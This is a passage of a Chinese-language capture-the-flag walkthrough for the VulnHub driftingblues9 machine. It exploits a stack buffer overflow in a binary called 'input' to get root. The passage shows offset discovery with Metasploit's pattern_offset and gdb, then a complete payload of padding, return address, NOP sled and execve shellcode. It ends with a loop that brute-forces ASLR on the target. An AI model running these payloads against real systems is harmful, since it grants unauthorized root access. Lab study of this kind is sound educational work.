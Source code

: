 ```c
```
现在，我们需要用它来查找偏移量。
接着我们使用 patter_offset.rb 来查找我们可以覆盖 EIP 的字节数。执行后可以看到171字节后可以覆盖EIP。
```c
┌──(kali㉿kali)-[/usr/share/metasploit-framework/tools/exploit]
└─$ ./pattern_offset.rb -l 200 -q 0x41376641
[*] Exact match at offset 171

┌──(kali㉿kali)-[~]
└─$ msf-pattern_offset -l 200 -q 0x41376641
[*] Exact match at offset 171

```

Leave等价于：

mov l %ebp %esp

pop l %ebp

我们在 171 处得到了精确匹配。现在，我们可以使用 python 命令简单地创建字符串。例如，输入包含具有 171 个 A、4 个 B 和 500 个 nop 的简单输入。
我们可以使用 gdb 中的参数来进行测试
```c
./input $(python2 -c 'print "A" * 171 + "B" * 4 + "\x90" * 500')
```

```c
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ gdb -q input
Reading symbols from input...
(No debugging symbols found in input)
(gdb) run $(python2 -c 'print "A"*171 + "B"*4 + "\x90"*500')
Starting program: /home/kali/桌面/OSCP/input $(python2 -c 'print "A"*171 + "B"*4 + "\x90"*500')
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) x/s $esp
0xffffccd0:     '\220' <repeats 200 times>...
(gdb) 
```
之后，我检查了 esp 寄存器，并由于小端字节序而用相反顺序的esp地址(由于此时esp地址存储的是下一跳地址，所以还有一种方法二，这个地址话可以填成jmp esp指令的地址（[VulnHub-driftingblues:9\_driftingblues9-CSDN博客](https://blog.csdn.net/qq_32261191/article/details/117908644)）)替换了 4 个 B。之后，我在 nop sled 之后添加了 shell。我的最终输入如下：

```c
run $(python2 -c 'print "A" * 171 + "\xd0\xcc\xff\xff" + "\x90" * 2000 + "\x31\xc9\xf7\xe1\x51\xbf\xd0\xd0\x8c\x97\xbe\xd0\x9d\x96\x91\xf7\xd7\xf7\xd6\x57\x56\x89\xe3\xb0\x0b\xcd\x80"')

```
我也在目标机器上重复了相同的过程。但是，目标上的 ASLR 已启用，如果没有 root 权限，我们无法禁用它。因此，我们必须多次迭代相同的代码行。
我替换了之前有效负载中的地址并运行了 for 循环
经过两次不同的尝试，我得到了 root shell 和 flag
```c
ldd input //0xb75ba000

for i in {1..10000}; do (./input $(python -c 'print "A" * 171 + "\xa0\xe4\xff\xbf" + "\x90" * 2000 + "\x31\xc9\xf7\xe1\x51\xbf\xd0\xd0\x8c\x97\xbe\xd0\x9d\x96\x91\xf7\xd7\xf7\xd6\x57\x56\x89\xe3\xb0\x0b\xcd\x80"')); done
```
